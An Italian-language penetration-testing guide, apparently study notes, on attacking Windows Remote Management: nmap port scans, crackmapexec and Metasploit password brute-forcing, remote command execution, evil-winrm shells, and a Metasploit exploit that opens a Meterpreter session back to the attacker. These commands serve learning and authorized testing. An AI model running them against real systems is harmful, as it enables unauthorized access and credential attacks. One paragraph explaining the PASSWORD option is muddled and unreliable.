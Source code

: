 # WinRM Enumeration

WinRM (Windows Remote Management) è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. È basato su HTTP e HTTPS, e le sue porte predefinite sono:

- `5985/TCP` per HTTP
- `5986/TCP` per HTTPS

WinRM viene usato in ambienti Windows moderni, soprattutto in Active Directory, per gestire sistemi da remoto. Se correttamente configurato, può essere un punto d’accesso molto potente per un attaccante.

## Attenzione alla scansione

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>`

Oppure, per script specifici:

`nmap -p 5985 --script http-winrm-info <IP>`

Questa scansione verifica se WinRM è attivo e restituisce informazioni come header HTTP, certificati e dettagli del server.

## Enumerazione e attacco con CrackMapExec

Per attaccare WinRM è molto utile il tool `crackmapexec`, che supporta vari protocolli di Windows. Per visualizzare tutti i moduli e opzioni disponibili, esegui:

`crackmapexec`

Per effettuare un attacco di brute-force sul servizio WinRM:

`crackmapexec winrm <IP> -u <username> -p <wordlist>`

Un ottimo punto di partenza è usare come username `administrator`, poiché è il primo utente generato quando WinRM viene attivato ed è dotato di privilegi amministrativi.

Se una password valida viene trovata, puoi rieseguire lo stesso comando con la password corretta e aggiungere `-x "<comando>"` per eseguire comandi remoti:

`crackmapexec winrm <IP> -u administrator -p Password123 -x "whoami"`

Puoi così eseguire `whoami`, `systeminfo`, `hostname` o altri comandi informativi.

## Accesso interattivo con Evil-WinRM

Per ottenere una vera e propria shell PowerShell remota, usa `evil-winrm`:

`evil-winrm.rb -u <username> -p '<password>' -i <IP>`

Questo comando apre una sessione interattiva da cui puoi:

- Eseguire comandi PowerShell
- Caricare o scaricare file
- Lanciare script di post-exploitation
- Raccogliere informazioni sulla macchina e sulla rete

## Brute-force con Metasploit

Metasploit include un modulo per tentare il login sul servizio WinRM in modo automatico. È utile se vuoi testare più combinazioni di credenziali in un attacco dizionario.

Apri `msfconsole` e utilizza il modulo:

`use auxiliary/scanner/winrm/winrm_login` <br>
`set RHOSTS <IP>` <br>
`set USERNAME <username>` <br>
`set PASS_FILE <path_alla_wordlist>` <br>
`set PASSWORD anything` <br>
`run` <br>

Questo modulo tenterà tutte le password contenute nella wordlist indicata per lo username specificato. È utile anche per testare una lista di utenti con:

`set USER_FILE <lista_utenti>` <br>
`set PASS_FILE <lista_password>` <br>

Attenzione perché questo modulo specifico richiede comunque che venga impostata l’opzione `PASSWORD`, altrimenti non potrà procedere all'esecuzione del payload remoto. In contesti in cui non hai la password reale (ma per esempio solo l’hash), puoi semplicemente usare un valore qualunque, come la stringa `anything`.

Questo funziona perché il modulo non verifica la correttezza della password prima dell’esecuzione: la connessione e l’autenticazione sono già state risolte dalla sessione stabilita, ma il modulo necessita comunque che il campo PASSWORD sia popolato per non generare errori di esecuzione.

Può essere una buona alternativa a `crackmapexec` in ambienti dove preferisci restare dentro Metasploit o tracciare tutto in sessioni di lavoro.

## Enumerazione dei metodi di autenticazione

Prima di tentare qualsiasi attacco di brute-force o accesso interattivo, è buona pratica usare il modulo `auxiliary/scanner/winrm/winrm_auth_methods`. Questo modulo ti permette di verificare quali metodi di autenticazione sono abilitati sul servizio WinRM.

Può mostrare, ad esempio, se il server accetta:

- Autenticazione di tipo base (username/password in chiaro)
- Autenticazione NTLM (usata con hash o per pass-the-hash)
- Autenticazione Kerberos (nei domini Active Directory)

Per utilizzarlo:

`use auxiliary/scanner/winrm/winrm_auth_methods` <br>
`set RHOSTS <IP>` <br>
`run` <br>

Il suo output ti aiuterà a capire qual è il metodo di attacco più adatto. Ad esempio:

-Se il server non supporta NTLM, non potrai usare hash NTLM per autenticarti.
-Se richiede Kerberos, dovrai operare in un ambiente di dominio e avere ticket validi.
-Se è presente solo l’autenticazione base, l’attacco sarà limitato a username e password in chiaro.

## WinRM con Metasploit – Accesso Meterpreter

Esiste anche un exploit in Metasploit per ottenere una sessione Meterpreter tramite WinRM:

`use exploit/windows/winrm/winrm_script_exec`

Configura i seguenti parametri:

- `set RHOST <IP>`
- `set LHOST <tuo_IP>`
- `set USERNAME <utente>`
- `set PASSWORD <password>`
- `set FORCE_VBS true`

### Cosa fa FORCE_VBS?

WinRM supporta l’esecuzione remota di script in PowerShell, ma a volte i permessi o le policy locali bloccano certi tipi di comandi interattivi. L'opzione `FORCE_VBS true` forza l'esecuzione dello script tramite un wrapper in VBScript, che spesso **bypassa restrizioni di esecuzione o policy di gruppo** troppo restrittive. Questo aumenta la compatibilità e l'affidabilità dell'exploit in ambienti più protetti.

## Considerazioni finali

WinRM è uno dei metodi più potenti per accedere da remoto a macchine Windows in modo completamente interattivo. È sicuro solo se ben configurato e filtrato via firewall. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere le credenziali, puoi:

- Ottenere shell con privilegi elevati
- Eseguire lateral movement
- Eseguire escalation di privilegi
- Lanciare exploit o script direttamente in memoria

Per questo motivo, ogni volta che trovi WinRM attivo, va considerato un obiettivo critico.
